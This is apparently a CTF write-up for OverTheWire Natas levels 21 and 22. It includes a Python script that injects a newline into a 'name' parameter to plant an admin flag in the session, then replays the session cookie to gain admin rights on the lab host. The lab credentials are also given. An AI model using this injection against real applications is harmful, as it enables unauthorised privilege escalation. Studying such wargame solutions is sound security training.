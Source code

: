 # Natas 21
On this CTF, we just see PHPSESSID is not predictable, that's why we need to read source code.
From source code analysis, I just understood that page checks session's **admin key** that is equal to 1 or not, then you can be admin.
That's why when we do POST request, we just get the previous session to use secondly to be admin user.

I just implement Python code for this, you can look at.

```python
import requests

target = 'http://natas20.natas.labs.overthewire.org'
auth = ('natas20', 'guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH')


#First request to get session of admin
params = dict(name='admin\nadmin 1', debug='') # <-- this is the key part
cookies = dict()
response = requests.get(target, auth=auth, params=params, cookies=cookies)
phpsessid = response.cookies['PHPSESSID']
print(response.text)


#Second request to be admin
params = dict(debug='')
cookies = dict(PHPSESSID=phpsessid)
response = requests.get(target, auth=auth, params=params, cookies=cookies)
print(response.text)
```

You can see also output of above code.
![natas211](images/natas211.png)

# Natas 22
Actually, this is similar to previous one, but here we get our admin session from **Specified URL on home page**.
That's why, I just modify previous script to find password.
